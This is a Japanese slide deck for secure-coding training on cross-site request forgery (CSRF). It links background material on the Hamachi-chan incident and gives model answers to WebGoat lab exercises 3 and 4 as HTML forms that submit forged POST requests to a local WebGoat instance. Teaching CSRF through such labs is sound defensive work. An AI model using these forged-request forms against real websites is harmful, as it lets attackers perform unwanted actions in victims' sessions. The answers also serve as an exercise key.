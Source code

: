```yaml
---
theme: gaia
_class: lead
paginate: true
backgroundColor: #fff
backgroundImage: url('https://marp.app/assets/hero-background.jpg')
marp: true
---
```


# クロスサイトリクエストフォージェリ(CSRF)

---

# クロスサイトリクエストフォージェリ(CSRF)とは？

* secure-coding-training `クロスサイトリクエストフォージェリ(CSRF)` を参照
https://github.com/takapi86/secure-coding-training/blob/master/doc/README.pdf

* CSRF再現からコードの修正まで
https://www.youtube.com/watch?v=BSeZ-z3Cz4w

---

# はまちちゃん事件

[大量の「はまちちゃん」を生み出したCSRFの脆弱性とは？](https://www.itmedia.co.jp/enterprise/articles/0504/23/news005.html)
[ぼくはまちちゃん！ こんにちはこんにちは!!](https://ascii.jp/elem/000/000/063/63560/)
[webアプリケーションの脆弱性について](https://okwave.jp/qa/q6781762.html)

---

### 課題

クロスサイトリクエストフォージェリの3,4の課題をやっていきましょう
http://localhost:8080/WebGoat/start.mvc#lesson/CSRF.lesson/

---

### 正解例

3

```HTML
<form method="POST" action="http://localhost:8080/WebGoat/csrf/basic-get-flag">
  <input name="csrf" type="hidden" value="false">
  <input type="submit" name="submit">
</form>
```

4

```html
<form method="POST" action="http://localhost:8080/WebGoat/csrf/review">
  <input class="form-control" id="reviewText" name="reviewText" placeholder="Add a Review"  type="text">
  <input class="form-control" id="reviewStars" name="stars" type="text">
  <input type="hidden" name="validateReq" value="2aa14227b9a13d0bede0388a7fba9aa9">
  <input type="submit" name="submit" value="Submit review">
</form>
```
